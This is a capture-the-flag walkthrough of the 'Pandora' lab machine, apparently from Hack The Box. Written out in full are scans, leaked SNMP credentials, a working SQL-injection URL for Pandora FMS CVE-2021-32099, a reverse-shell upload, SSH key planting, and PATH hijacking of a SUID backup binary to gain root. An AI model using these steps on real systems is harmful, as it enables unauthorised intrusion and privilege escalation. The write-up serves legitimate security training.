 #### Initial TCP Scan
```
nmap -sC -sV 10.10.11.136 -oN pandora.nmap

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
9001/tcp open  http    PHP cli server 5.5 or later
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



#### Findings UDP Scan
```
sudo nmap  -sU 10.10.11.136 -oN udp.nmap -vv
	sudo nmap -p 161 -sU -sC -sV 10.10.11.136
826:
|     Name: sh
|     Path: /bin/sh
|     Params: -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'	

ssh daniel@10.10.11.136 
password: HotelBabylon23
```
Found 3 Users
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```
#### Port Forwarding with SSH
```
ssh -L 8000:localhost:80 daniel@10.10.11.136

http://127.0.0.1:8000/pandora_console/
```
#### Pandora FMS 742:POC CVE-2021-32099 
```
https://github.com/ibnuuby/cve-2021-32099
https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained

http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario%7Cs:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```
#### Uploading revershell.php
```
Admin Tools > File Manager
```
#### Getting a shell
Navigating to browser URL
```
127.0.0.1:8000/pandora_console/images/revshell.php
```
#### SSH connection with Matt User
```
Exporting (Kali) id_rsa.pub to (Matt) .ssh/authorized_keys
```
#### Finding Sudo Permissions in Root
```
find / -perm -u=s -type f 2>/dev/null
```
Interesting: ```/usr/bin/pandora_backup```

#### Getting Root
```
echo "/bin/bash" > tar
chmod +x tar
export PATH=$(pwd):$PATH
```
Run: ```/usr/bin/pandora_backup```

We are Root!
